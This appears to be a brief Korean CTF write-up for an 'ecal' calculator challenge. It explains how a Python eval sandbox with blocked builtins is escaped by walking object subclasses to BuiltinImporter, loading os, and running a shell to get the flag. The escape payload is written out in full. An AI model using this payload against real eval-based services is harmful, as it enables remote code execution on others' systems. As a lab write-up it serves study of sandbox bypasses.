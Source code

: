 # ecal

밑에처럼 계산기 기능의 코드임

![image](https://github.com/user-attachments/assets/409d9464-a533-4d0a-809b-8a6ea9b1a373)

밑에 미티게이션들이 있지만 있음

![image](https://github.com/user-attachments/assets/a5aa543b-fed1-4558-b9c2-61339f5a8731)

![image](https://github.com/user-attachments/assets/f0042b72-a6d5-4cfe-8088-1f6674774bfc)

모든 내장함수 막기 때문에 dir open이런방식이 아닌 ssti처럼 rce로 해야된다고 판단

![image](https://github.com/user-attachments/assets/05222d47-4823-4342-bd7c-b573387c0f43)

그러나 subprocess같은것들도 다 막혀서 방법 찾는도중 import를 해주는 attribute가 있음
[].__class__.__base__.__subclasses__()
으로 import해주는 애를 찾을 수 있는데
 [x for x in  [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os')
 이런식으로 os를 import해준 후, system으로 쉘실행시켜주면 플래그 획득

 ![image](https://github.com/user-attachments/assets/c5f5b0cc-bf61-490c-8d38-5b9a41717601)

